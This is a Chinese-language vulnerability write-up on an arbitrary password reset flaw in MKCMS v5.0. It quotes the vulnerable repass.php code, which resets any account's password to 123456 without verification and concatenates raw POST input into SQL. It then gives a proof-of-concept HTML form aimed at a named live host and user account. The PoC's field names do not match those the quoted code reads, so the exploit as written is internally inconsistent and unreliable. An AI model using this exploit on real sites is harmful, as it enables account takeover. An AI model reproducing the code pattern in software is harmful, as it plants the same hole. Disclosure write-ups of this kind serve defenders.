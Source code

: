 MKCMS v5.0 任意密码重置漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/repass.php`第1-44行:

    <?php 
    include('../system/inc.php');
    if(isset($_SESSION['user_name'])){
    header('location:index.php');
    };

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    $email = trim($_POST['email']);
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
    if(!! $row = mysql_fetch_array($query)){
    $_data['u_password'] = md5(123456);
    $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
    if (mysql_query($sql)) {

    $token =$row['u_question'];
    include("emailconfig.php");
        //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
        $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
        $smtp->debug = false; 
        $mailType = "HTML"; //信件类型，文本:text；网页：HTML
        $email = $email;  //收件人邮箱
        $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
        $emailBody = "亲爱的".$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style='text-align:right'>-------- ".$mkcms_name." 敬上</p>";

        // sendmail方法
        // 参数1是收件人邮箱
        // 参数2是发件人邮箱
        // 参数3是主题（标题）
        // 参数4是邮件主题（标题）
        // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
        $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
    if($rs==true){
    echo '<script>alert("请登录到您的邮箱查看您的密码！");window.history.go(-1);</script>';
    }else{
    echo "找回密码失败";
    }

    }
    }
    }

    ?>

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![](resource/MKCMSv5.0任意密码重置漏洞/media/rId24.jpg)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://v.micool.top/ucenter/repass.php" method="POST">
          <input type="hidden" name="u_name" value="lduo123" />
          <input type="hidden" name="u_email" value="admin@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>                         
      </body>
    </html>

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
>
> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html
